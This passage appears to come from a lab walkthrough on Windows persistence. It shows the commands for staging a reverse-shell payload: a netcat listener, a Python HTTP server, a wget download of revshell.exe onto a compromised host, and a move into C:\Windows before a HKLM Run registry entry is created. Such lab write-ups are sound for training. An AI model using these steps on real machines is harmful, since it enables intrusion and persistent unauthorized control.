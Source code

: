 ```Bash
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener that'll listen for inbound connections
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine to start a simple HTTP server on our attack machine to allow the compromised Windows machine to connect back to our attack machine and download the reverse shell payload that we just created
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine to launch PowerShell
```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine to download our payload from our attack machine and save it under a different name 
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `dir` from the compromised Windows machine display the files and directories that are in our current working directory to verify if the payload has been successfully downloaded from our attack machine, which it has
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   5:31 PM           7168 revshell.exe
```
8. `move <PAYLOAD NAME>.exe <DESTINATION PATH>` from the compromised Windows machine to move our payload into the **C:\Windows** directory
```PowerShell
PS C:\Users\Administrator>move revshell.exe C:\Windows
        1 file(s) moved.
```
9. `regedit` from the compromised Windows machine to launch the Registry Editor (**regedit**), which we'll then go to the **HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run** registry, which contains information about programs and processes that are configured to run automatically when Windows starts up, to create a new **REG_EXPAND_SZ** registry that'll have a value that corresponds to the full path of the command that we'd want to execute when the compromised Windows machine starts up, which is found over at **C:\Windows\<PAYLOAD NAME>.exe**
```PowerShell
```